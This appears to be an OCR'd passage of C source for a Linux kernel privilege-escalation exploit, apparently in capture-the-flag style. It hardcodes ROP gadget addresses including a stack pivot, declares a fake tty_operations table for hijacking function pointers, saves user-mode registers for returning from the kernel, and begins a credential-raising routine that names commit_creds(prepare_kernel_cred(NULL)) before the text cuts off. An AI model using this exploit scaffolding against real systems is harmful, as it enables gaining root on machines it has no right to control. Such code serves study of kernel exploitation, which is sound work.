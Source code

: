 ```c
#define poprdi_ret 0xffffffff810d238d
#define movrsprax_decebx_ret 0xffffffff8181bfc5
#define poprax_ret 0xffffffff8100ce6e

unsigned long long fake_tty_operations[30];

void saveStatus();
void print_binary(char* buf, int length);
void rise_cred();
void shell();

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\n\033[0m");
}

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
	printf("---------------------------------------------------------------------------\n");
	printf("Address info starting in %p:\n", buf);
	int index = 0;
	char output_buffer[80];
	memset(output_buffer, '\0', 80);
	memset(output_buffer, ' ', 0x10);
	for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
		char temp_buffer[0x10];
		memset(temp_buffer, '\0', 0x10);
		sprintf(temp_buffer, "%#5x", index);
		strcpy(output_buffer, temp_buffer);
		output_buffer[5] = ' ';
		output_buffer[6] = '|';
		output_buffer[7] = ' ';
		for(int j=0; j<16; j++){
			if(index+j >= length)
				sprintf(output_buffer+8+3*j, "   ");
			else{
				sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
				if(!isprint(buf[index+j]))
					output_buffer[58+j] = '.';
				else
					output_buffer[58+j] = buf[index+j];
			}
		}
		output_buffer[55] = ' ';
		output_buffer[56] = '|';
		output_buffer[57] = ' ';
		printf("%s\n", output_buffer);
		memset(output_buffer+58, '\0', 16);
		index += 16;
	}
	printf("---------------------------------------------------------------------------\n");
}

void rise_cred(){
	// define two function pointer
	// printf("\033[32m\033[1m[+] Ready to execute commit_creds(prepare_kernel_cred(NULL))......\033[0m\n");
```
